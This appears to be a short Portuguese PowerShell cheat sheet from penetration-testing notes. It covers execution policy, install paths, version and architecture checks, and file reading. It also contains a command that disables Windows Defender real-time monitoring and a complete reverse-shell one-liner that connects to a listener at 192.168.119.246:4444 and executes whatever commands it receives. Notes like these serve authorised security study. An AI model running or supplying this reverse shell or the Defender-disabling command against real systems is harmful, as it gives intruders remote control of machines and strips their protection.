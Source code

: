 Powershell
========================

Executar o seguinte comando para habilitar a utilização de scripts em powershell:


    Set-ExecutionPolicy RemoteSigned

https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/

opção "A"

Full Path powershelll

64 bits version: C:\Windows\System32\WindowsPowerShell\v1.0\
32 bits version: C:\Windows\SysWOW64\WindowsPowerShell\v1.0\

    %SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
    #ou
    C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe   

## Architecture

    (Get-Process -Id $PID).StartInfo.EnvironmentVariables["PROCESSOR_ARCHITECTURE"];
    
    [Environment]::Is64BitProcess


## Versão do powerhsell

    $host.version.major

## Desabilitar windows defender com powershell

Set-MpPreference -DisableRealtimeMonitoring $true


## Comments
    #comments in powershell 
  
One-liner shell in powershell:

    #no lado do servidor basta abrir um netcat -nlvp 4444
    $client = New-Object System.Net.Sockets.TCPClient('192.168.119.246',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()


## read file line by line

    foreach($line in Get-Content .\file.txt) {
        if($line -match $regex){
            # Work here
        }
    }
   